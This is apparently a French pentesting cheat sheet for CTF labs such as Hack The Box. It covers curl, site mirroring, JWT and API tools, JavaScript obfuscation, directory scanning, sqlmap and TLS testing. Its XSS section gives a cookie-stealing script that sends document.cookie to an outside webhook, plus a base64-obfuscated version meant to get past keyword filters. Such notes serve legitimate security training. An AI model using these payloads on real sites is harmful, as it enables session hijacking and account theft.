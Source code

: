 # Web

- [Curl](#curl)
- [JWT (Json Web Token)](#jwt-json-web-token)
- [API](#api)
- [Obfuscation Javascript](#obfuscation-javascript)
- [XSS (Cross Site Scripting)](#xss-cross-site-scripting)
- [Scan d'URL web](#scan-durl-web)
- [Injection SQL](#injection-sql)
- [TLS](#tls)

## Curl

```bash
# ajouter un header à la requête
curl http://10.10.10.215 -H host:academy.htb
```

Pour obtenir la version hors-ligne d'un site :
```bash
# version longue
wget -r -l1 --page-requisite --convert-links --html-extension --timestamping url
# version courte
wget -r -l1 -p -k -E -N url
```

## JWT (Json Web Token)

Pour décoder un JWT : https://jwt.io/

## API

Pour requêter une API : https://reqbin.com

## Obfuscation Javascript

Outil pour obfusquer du Javascript : http://dean.edwards.name/packer

Outil pour dé-obfusquer du Javascript : https://lelinhtinh.github.io/de4js

## XSS (Cross Site Scripting)

```html
// Pour tester
<p id="p1">Testarossa</p>
<script>
document.getElementById("p1").innerHTML = "Life found a way !";
</script>
```

Webhook : https://busterbaxter.requestcatcher.com
```html
// Pour exploiter
<script>
var script = document.createElement("script");
script.src = "https://busterbaxter.requestcatcher.com/" + document.cookie;
document.body.appendChild(script);
</script>:-)

// Pour bypass les filtres qui recherchent des mots clés : base64 encoded payload
<body onload="eval(atob('dmFyIHNjcmlwdCA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoInNjcmlwdCIpO3NjcmlwdC5zcmMgPSAiaHR0cHM6Ly9idXN0ZXJiYXh0ZXIucmVxdWVzdGNhdGNoZXIuY29tLyIgKyBkb2N1bWVudC5jb29raWU7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzY3JpcHQpOw=='))">
```

## Scan d'URL web

>Attention ! Ne pas utiliser en CTF réaliste
```bash
dirb http://10.10.10.215 -r -o academy.dirb.txt -H host:academy.htb
```

## Injection SQL

https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet

```bash
# à partir d'une url
sqlmap -u "http://academy.htb/admin.php?uid=0&password=0" #--level 5 --risk 3
# à partir d'une requête interceptée par burpsuite
sqlmap -r academy.burp.txt
```

## TLS

`testssl.sh` permet de tester :
- versions de SSL/TLS
- suites de chiffrement
- ordre de chiffrement
- certificat
- vulnérabilités connues

Pour lancer :
```bash
git clone --depth 1 https://github.com/drwetter/testssl.sh.git
cd testssl.sh
./testssl.sh --html 172.17.0.2:50051
```

